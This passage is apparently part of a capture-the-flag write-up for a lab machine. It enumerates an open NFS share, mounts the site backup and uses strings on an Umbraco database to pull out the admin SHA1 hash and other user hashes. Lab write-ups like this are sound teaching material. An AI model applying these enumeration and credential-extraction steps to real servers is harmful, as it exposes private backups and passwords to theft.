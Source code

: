 ![umbraco_login](/assets/img/posts/remote/umbraco_login.png)

Not finding anything else on the website, we move on to the NFS shares.

## NFS

```bash
finlay@kali:~$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
The backup is available to everyone, so we can mount it on our local machine.

```bash
finlay@kali:~$ mount -t nfs 10.10.10.180:/site_backups /mnt
```

In the App_Data folder we find a database file name Umbraco.sdf. If we use strings, we can extract the admin password hash.

```bash
finlay@kali:/mnt/App_Data$ strings Umbraco.sdf | head
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```

